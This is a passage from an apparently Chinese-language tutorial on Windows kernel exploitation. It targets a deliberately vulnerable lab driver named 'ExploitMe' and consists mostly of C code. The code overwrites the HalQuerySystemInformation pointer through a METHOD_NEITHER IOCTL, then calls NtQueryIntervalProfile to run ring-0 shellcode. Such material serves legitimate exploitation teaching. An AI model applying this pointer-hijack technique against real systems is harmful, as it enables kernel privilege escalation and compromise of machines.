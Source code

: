 ### 4 替换HalQuerySystemInformation指针

```c
	// 设备名称的Unicode字符串
	RtlInitUnicodeString(&DeviceName, L"\\Device\\ExploitMe");
	// 打开ExploitMe设备
    // ...
	NtStatus = NtCreateFile(
		&DeviceHandle,     // FileHandle
		FILE_READ_DATA |
		FILE_WRITE_DATA,   // DesiredAccess
		&ObjectAttributes, // ObjectAttributes
		&IoStatusBlock,    // IoStatusBlock
		NULL,              // AllocationSize OPTIONAL
		0,                 // FileAttributes
		FILE_SHARE_READ |
		FILE_SHARE_WRITE, // ShareAccess
		FILE_OPEN_IF,     // CreateDisposition
		0,                // CreateOptions
		NULL,             // EaBuffer OPTIONAL
		0);               // EaLength
	if(NtStatus){
		printf("NtCreateFile failed! NtStatus=%.8X\n", NtStatus);
		goto ret;
	}
	// 利用漏洞将HalQuerySystemInformation函数地址改为0
	InputData = 0;
	NtStatus = NtDeviceIoControlFile(
		DeviceHandle,         // FileHandle
		NULL,                 // Event
		NULL,                 // ApcRoutine
		NULL,                 // ApcContext
		&IoStatusBlock,       // IoStatusBlock
		IOCTL_METHOD_NEITHER, // IoControlCode
		&InputData,           // InputBuffer
		BUFFER_LENGTH,        // InputBufferLength
		xHalQuerySystemInformation, // OutputBuffer
		BUFFER_LENGTH);       // OutBufferLength
	if(NtStatus){
		printf("NtDeviceIoControlFile failed! NtStatus=%.8X\n", NtStatus);
		goto ret;
	} 
```

### 5 触发Ring0 Shellcode

```c
	// 触发漏洞
	NtStatus = NtQueryIntervalProfile(
		ProfileTotalIssues, // Source
		NULL);              // Interval
	if(NtStatus){
		printf("NtQueryIntervalProfile failed! NtStatus=%.8X\n", NtStatus);
		goto ret;
	}
	printf("NtQueryIntervalProfile succeed!\n");
	if(g_isRing0ShellcodeCalled == 1)
		printf("Shellcode executed.\n");
```
